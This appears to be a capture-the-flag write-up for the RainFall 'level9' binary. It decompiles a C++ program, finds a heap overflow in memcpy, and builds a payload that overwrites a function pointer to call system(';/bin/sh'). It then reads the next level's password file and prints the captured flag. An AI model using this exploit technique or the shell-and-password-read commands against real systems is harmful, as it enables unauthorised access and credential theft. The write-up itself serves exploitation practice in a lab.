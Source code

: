 ## Basic analysis
All right, lets give this a try:
~~~shell
level9@RainFall:~$ ./level9
level9@RainFall:~$ ./level9 42
level9@RainFall:~$ ./level9 42 42
level9@RainFall:~$ ./level9 42 42 42
level9@RainFall:~$ 
~~~
Doing nothing, not really helpful...you deserve to be eaten by **Ghidra**!
~~~C
void main(int param_1,int param_2)
{
  N *this;
  undefined4 *this_00;
  
  if (param_1 < 2) {
                    /* WARNING: Subroutine does not return */
    _exit(1);
  }
  this = (N *)operator.new(0x6c);
  N::N(this,5);
  this_00 = (undefined4 *)operator.new(0x6c);
  N::N((N *)this_00,6);
  N::setAnnotation(this,*(char **)(param_2 + 4));
  (**(code **)*this_00)(this_00,this);
  return;
}
void __thiscall N::N(N *this,undefined4 param_1)

{
  *(undefined ***)this = &PTR_operator+_08048848;
  *(undefined4 *)(this + 0x68) = param_1;
  return;
}

void __thiscall N::setAnnotation(N *this,char *param_1)
{
  size_t __n;
  
  __n = strlen(param_1);
  memcpy(this + 4,param_1,__n);
  return;
}
~~~
As we see, this binary is C++, two instances of a class N is allocated. Also, the function **setAnnotation()** is called for the first N instance, expecting the argument from main, measuring it and calling **memcpy(*dest, *src, int length)**. There is no system call, nor any function to print or revel the flag for the next level. But **memcpy** is vulnerable to overflow, so let's try that and invoke shell on the place of return address. 

## Overflow
Lets get the offset:
~~~shell
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Starting program: /home/user/level9/level9 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
(gdb) info registers eax
eax            0x41366441	1094083649
~~~
Using the **wiremask** ti generate the pattern and memory address of the eax (return value) register, we find out the offset is **108**. This would correlate with the decompiled code, where creation of the N clss instances happens with the **0x6c**, which is hexadecimal for 108 decimal. Now we know the offset, the point is to overflow it to rewrite the return adress of the method setAnnotation - to call the shell for us. 

Info needed:
1) Memory address of system() ((gdb) info functions system): **0xb7d86060**
2) Address of EAX register (which contains the return value we need to overwrite..): **0x804a00c**
~~~shell
(gdb) b *main+136
Breakpoint 1 at 0x804867c
(gdb) run 424242
Starting program: /home/user/level9/level9 424242

Breakpoint 1, 0x0804867c in main ()
(gdb) x $eax
0x804a00c:	0x32343234
(gdb) 
~~~
3) offset: **108**


The payload will be sent to the binary as an argument and will be structured like - **address of system (4 bytes) -> padding of 104 bytes -> address of eax register -> ";/bin/sh" as a argument for system()**
~~~shell
level9@RainFall:~$ ./level9 $(python -c 'print "\xb7\xd8\x60\x60"[::-1] + "a" * 104 + "\x08\x04\xa0\x0c"[::-1] + ";/bin/sh"')
sh: 1: 
       : not found
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
~~~
